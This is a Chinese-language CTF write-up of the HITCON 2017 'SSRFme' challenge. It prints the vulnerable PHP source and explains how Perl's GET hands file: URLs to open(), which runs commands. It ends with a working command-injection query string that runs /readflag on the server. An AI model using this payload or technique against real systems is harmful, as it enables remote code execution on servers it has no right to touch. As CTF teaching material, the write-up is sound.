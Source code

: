 # **[HITCON 2017]SSRFme
- perl脚本GET open命令漏洞

`GET`是 `Lib for WWW in Perl` 中的命令 目的是模拟http的GET请求,GET函数底层就是调用了`open`处理

open存在命令执行，并且还支持file函数

```php
<?php
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
    }

    echo $_SERVER["REMOTE_ADDR"];

    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);

    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    $info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
    @mkdir($dir);
    @chdir($dir);
    @file_put_contents(basename($info["basename"]), $data);
    highlight_file(__FILE__);
```
test:能读取根目录

![](https://img-blog.csdnimg.cn/d7e431f655184772a56e416751483f72.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
`当GET使用file协议的时候就会调用到perl的open函数`

open函数`命令执行`格式`open(FD, "ls|");`

`要执行的命令先前必须要有以命令为文件名的文件存在`

然后readflag，如果直接/readflag的话，那么会在服务器的根目录创建这个文件，而不是在网站的那个目录，所以是无法命令执行的，所以可以用bash -c 相当于./readflag，而根据php字符解析特性，如果直接将./readflag传入，那么.就会变成下划线,从而不能命令执行。直接bash的话好像是只能bash 有sh后缀的文件，所以不能用



```
?url=file:bash -c /readflag|&filename=bash -c /readflag|
```



